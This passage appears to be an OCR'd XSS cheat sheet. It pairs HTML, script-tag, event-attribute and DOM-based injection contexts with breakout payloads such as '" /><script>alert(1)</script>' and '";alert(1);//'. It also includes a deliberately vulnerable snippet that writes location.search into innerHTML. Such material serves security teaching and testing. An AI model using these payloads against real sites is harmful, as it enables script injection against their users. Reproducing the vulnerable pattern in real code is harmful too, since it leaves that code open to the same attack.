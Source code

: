- >

```
<svg/onload=alert(1)

```

### HTML Tag Attributes

```
<input value="here"/></input>

```

- >

```
" /><script>alert(1)</script>

```

### Script Tag

```
<script>
    var name="here";
</script>

```

- >

```
";alert(1);//

```

### Event Attributes

```
<button onclick="here;">Okay!</button>

```

- >

```
alert(1)

```

### Dom Based

```
<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\\'"+ok+"\\'>ok</a>";</script>

```
